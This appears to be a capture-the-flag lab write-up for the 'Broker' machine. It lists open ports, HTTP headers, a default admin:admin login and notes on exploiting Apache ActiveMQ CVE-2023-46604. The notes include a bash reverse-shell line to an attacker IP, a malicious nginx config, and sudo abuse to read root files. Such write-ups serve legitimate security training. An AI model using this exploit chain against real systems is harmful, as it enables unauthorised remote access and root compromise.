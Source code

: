 # Broker

## Ports

| HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.243 | 22   | tcp   | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.4 |
| 10.10.11.243 | 80   | tcp   | nginx   | 1.18.0                  |

## HEADERS

```
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 10 Nov 2023 12:54:50 GMT
Content-Type: text/html;charset=iso-8859-1
Content-Length: 447
Connection: keep-alive
WWW-Authenticate: basic realm="ActiveMQRealm"
Cache-Control: must-revalidate,no-cache,no-store
```

## DIRECTORIES

- /

## USERS

- (http auth) admin:admin
- (machine) activemq
- (machine) root

## NOTES

- Basic http auth on /
- Jetty 9.4.39
- Login with `admin:admin`
- ActiveMQ message broker v5.15.15 (java based)
- Exploit `git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ`
- Change `poc-linux.xml` to do `bash -c bash -i &gt;&amp; /dev/tcp/10.10.14.5/9001 0&gt;&amp;1` (html encoded)
- Get user flag `cat ~/user.txt`
- Check sudo permissions `sudo -l (ALL : ALL) NOPASSWD: /usr/sbin/nginx`
- Copy the current nginx.conf to a writeable folder `cp /etc/nginx/nginx.conf /dev/shm/`
```
# malicious nginx config
user root;
worker_processes auto;
pid /run/nginx.pid2;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {
        server {
                listen 1337;
                location / {
                        root /;
                        autoindex on;
                        }
                }
}
```
- Set nginx config file to malicious one `sudo nginx -c /dev/shm/nginx.conf`
- Get root flag `curl localhost:1337/root/root.txt`
